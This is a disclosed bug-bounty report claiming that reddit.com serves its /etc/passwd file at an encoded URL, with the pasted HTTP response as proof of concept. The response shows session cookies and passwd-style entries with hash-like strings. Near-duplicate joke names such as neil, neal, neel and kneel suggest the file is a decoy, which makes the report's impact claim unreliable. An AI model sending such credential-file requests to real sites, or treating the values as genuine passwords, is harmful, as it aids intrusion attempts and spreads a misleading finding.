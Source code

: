 # critical file found etc/passwd on www.reddit.com

## Report Details
- **Report ID**: 1187003
- **URL**: https://hackerone.com/reports/1187003
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-06T19:23:35.234Z
- **Disclosed**: 2021-10-21T19:54:55.412Z

## Reporter
- **Username**: himan253
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
1.go to this link https://www.reddit.com/etc%2fpasswd
2.youll find all the etc/passwd   files this data should be protected.
3.these passwd can be used for many illegal purpose and can damage the comapny 
poc attched:
HTTP/2 200 OK
Content-Type: text/plain; charset=UTF-8
X-Ua-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Cache-Control: max-age=0, must-revalidate
X-Moose: majestic
Accept-Ranges: bytes
Date: Thu, 06 May 2021 19:04:28 GMT
Via: 1.1 varnish
Vary: accept-encoding
Set-Cookie: loid=0000000000bz6qw076.2.1620327868031.Z0FBQUFBQmdsRDI4Q1NBY21wZmZ6MGlydUE3SllQbkRzNzR4UDVGMkI2QjVjWHVJR05aOFVrY1RvS3Fmdm40aDlvMXM0VzdGWkdFaEZDaTdNcUZwOVBlX294VWJuY1lxb0R5Uzdxa2ZxQ21Ra0lkaXZvb1BoYWNJUmpGRVNVTUNUSlpmbmVLYV9RUkM; Domain=reddit.com; Max-Age=63071999; Path=/; expires=Sat, 06-May-2023 19:04:28 GMT; secure; SameSite=None; Secure
Set-Cookie: session_tracker=dAuhcStLE0ABOIbbQG.0.1620327868031.Z0FBQUFBQmdsRDI4MUJpdTFveEM5RzFONlpmQVBNRTFrUU9EZTExODF3MzUwZjIxNGNiODBUaWYtQW1pakNCZFA2eWhWcEVHbmh0N1dlTVNFdEE0NkhPbmdMOE54YjRQeUp4T1ZUc1JmRlVfMER2VzhoTFd4amlzQWlldkZqcG9uVzBKSkR4cTB6LVM; Domain=reddit.com; Max-Age=7199; Path=/; expires=Thu, 06-May-2021 21:04:28 GMT; secure; SameSite=None; Secure
Set-Cookie: csv=1; Max-Age=63072000; Domain=.reddit.com; Path=/; Secure; SameSite=None
Set-Cookie: edgebucket=JJxiXzjqsnVU7EAuE7; Domain=reddit.com; Max-Age=63071999; Path=/;  secure
Strict-Transport-Security: max-age=15552000; includeSubDomains; preload
Server: snooserv
Content-Length: 1523

root:*:16583:0:99999:7:::
daemon:*:16583:0:99999:7:::
bin:*:16583:0:99999:7:::
sys:*:16583:0:99999:7:::
sync:*:16583:0:99999:7:::
games:*:16583:0:99999:7:::
man:*:16583:0:99999:7:::
lp:*:16583:0:99999:7:::
mail:*:16583:0:99999:7:::
news:*:16583:0:99999:7:::
uucp:*:16583:0:99999:7:::
proxy:*:16583:0:99999:7:::
www-data:*:16583:0:99999:7:::
backup:*:16583:0:99999:7:::
list:*:16583:0:99999:7:::
irc:*:16583:0:99999:7:::
gnats:*:16583:0:99999:7:::
nobody:*:16583:0:99999:7:::
libuuid:!:16583:0:99999:7:::
syslog:*:16583:0:99999:7:::
messagebus:*:16583:0:99999:7:::
landscape:*:16583:0:99999:7:::
sshd:*:16583:0:99999:7:::
pollinate:*:16583:0:99999:7:::
puppet:*:16584:0:99999:7:::
memcache:!:16727:0:99999:7:::
ntp:*:16727:0:99999:7:::
snmp:*:16727:0:99999:7:::
spez:$1$$GbK4WZMpXZgmYlQ+H3/68Q==:16727:0:99999:7:::
daniel:$1$$X03MO1qnZdYdgyfeuILPmQ==:16727:0:99999:7:::
spladug:$1$$Xee7PCMnQfRh88zRPBunoA==:16727:0:99999:7:::
neil:$1$$KrljkMfb40Od500MmwsXZw==:16727:0:99999:7:::
neal:$1$$Xr4ilOzQ4PCOq3aQ0qbuaQ==:16727:0:99999:7:::
sam:$1$$BtgOsMULSaUJtJ8kJOjIBQ==:16727:0:99999:7:::
neel:$1$$0HfyRN74pw5ep1i9g1L82A==:16727:0:99999:7:::
kneel:$1$$g+Spau2WQ2xiG5gJ4lizCQ==:16727:0:99999:7:::
kevin:$1$$yOjfiVwsrhZrrQJ/3xUzWw==:16727:0:99999:7:::
kavin:$1$$31PKJoJAynZnDIVm7lRWig==:16727:0:99999:7:::
kovin:$1$$G43Qgw1Fk6OIrzganMC2WA==:16727:0:99999:7:::
powerlanguage:$1$$A9kE9Zud+aPy76hqmMj3lQ==:16727:0:99999:7:::
robin:$1$$q67PjKP5jcE+7susJjzT7Q==:16727:0:99999:7:::
justin:$1$$zRTDI5AgJOcshQqoKNY0pw==:16727:0:99999:7:::

## Impact

all the password and data publicly available

## Attachments
- 1.PNG
- 2.PNG
- recording-1620328851650.webm
